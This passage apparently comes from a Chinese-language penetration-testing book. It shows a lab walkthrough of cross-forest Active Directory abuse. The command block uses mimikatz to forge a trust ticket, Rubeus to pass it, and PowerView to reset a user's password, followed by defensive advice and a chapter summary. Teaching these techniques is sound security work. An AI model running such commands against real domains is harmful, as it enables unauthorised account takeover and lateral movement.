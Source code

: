 ![图 5.44 – essos.local 中的域组，RID > 1000](img/B18964_05_44.jpg)

图 5.44 – essos.local 中的域组，RID > 1000

`Spys` 对 `jorah.mormont` 用户具有 `GenericAll` 权限，这意味着我们可以完全控制该用户：

```
mimikatz.exe "kerberos::golden /user:Administrator /domain:sevenkingdoms.local /sid:S-1-5-21-4243769114-3325725031-2403382846 /sids:S-1-5-21-2801885930-3847104905-347266793-1109 /rc4:f622cc44c550868e310fbf5ded4194f3 /service:krbtgt /target:essos.local /ticket:trust.kirbi"
Rubeus.exe asktgs /ticket:trust.kirbi /service:ldap/meereen.essos.local /dc:meereen.essos.local /ptt
$UserPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
Set-DomainUserPassword -Identity jorah.mormont -domain essos.local -AccountPassword $UserPassword -Verbose
```

密码已成功更改，以下截图显示了这一点：

![图 5.45 – 密码更改成功](img/B18964_05_45.jpg)

图 5.45 – 密码更改成功

使用 `crackmapexec` 验证新密码是否已成功设置：

![图 5.46 – 使用新密码成功登录](img/B18964_05_46.jpg)

图 5.46 – 使用新密码成功登录

为防止跨林滥用，确保严格的 SID 过滤已启用，TGT 委派和 SID 历史已禁用，并且 ACL 已正确应用于林中的对象。然而，如果攻击者能够破坏或冒充具有外部组成员资格的用户，只有选择性认证才能限制损害。

# 总结

本章讨论了横向渗透的主题。我们讨论了如何使用管理协议在环境中进行移动。这是一种有效的方式，可以与正常流量融合并避开监控。哈希转发的概念是一个强有力的武器，尤其是在缺乏加固的环境中。像禁用未使用的协议和服务这样的简单建议，可以显著提高安全性。需要指出的是，在复杂的环境中，即使是简单的变更也可能造成混乱和宕机，因此需要进行彻底的测试。深入探讨 Kerberos 认证、不同类型的委派以及如何滥用它们，帮助我们更详细地理解 Kerberos 协议的复杂性以及每种委派类型的安全影响。我们已经在实践中证明，对于成功的横向渗透，攻击者不一定需要受害者的密码。任何形式的凭证材料，如哈希值、票据或密钥，都可以作为替代。保持隐蔽并模拟真实的身份验证尝试需要对你的技术有深入的理解。在 *第八章* 中，我们将展示证书也可以用于横向渗透。最后但同样重要的是，跨林横向渗透表明，这不仅仅关乎你的安全性，还涉及到你的受托人是谁。在下一章中，我们将讨论域内特权提升的问题。

# 参考资料
